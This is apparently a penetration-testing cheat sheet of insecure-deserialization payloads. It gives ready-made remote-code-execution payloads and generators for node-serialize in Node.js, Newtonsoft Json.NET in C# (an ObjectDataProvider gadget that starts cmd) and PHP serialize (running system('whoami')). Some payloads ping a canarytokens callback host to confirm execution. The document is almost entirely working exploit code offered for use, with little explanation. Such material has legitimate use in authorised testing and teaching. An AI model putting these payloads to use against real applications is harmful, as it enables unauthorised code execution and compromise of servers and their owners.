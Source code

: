 # Object Deserialization
## Node.JS - node-serialize
Payload Generator:
```sh
let y = {
  rce: function() {
    require('child_process').exec('ping XXXXXXXXX.canarytokens.com', function(error, stdout, stderr) { console.log(stdout); });
  },
};

let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Run:
```sh
node serialize.js
```

Payload:
```sh
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('ping XXXXXXXXX.canarytokens.com', (error, stdout, stderr) => { console.log(stdout); }); } ()"}
```
#####

## C# - Newtonsoft
```sh
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', 'ping -n 3   XXXXXXXXX.canarytokens.com']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
#####

## PHP - serialize
Payload Generator:
```sh
<?php

class Example2
{  
   private $hook = "system('whoami');";
}

print(urlencode(serialize(new Example2)) . "\n");
print((serialize(new Example2)) . "\n");

?>
```
Payload:
```sh
O:8:"Example2":1:{s:14:"Example2hook";s:17:"system('whoami');";} 
```
#####

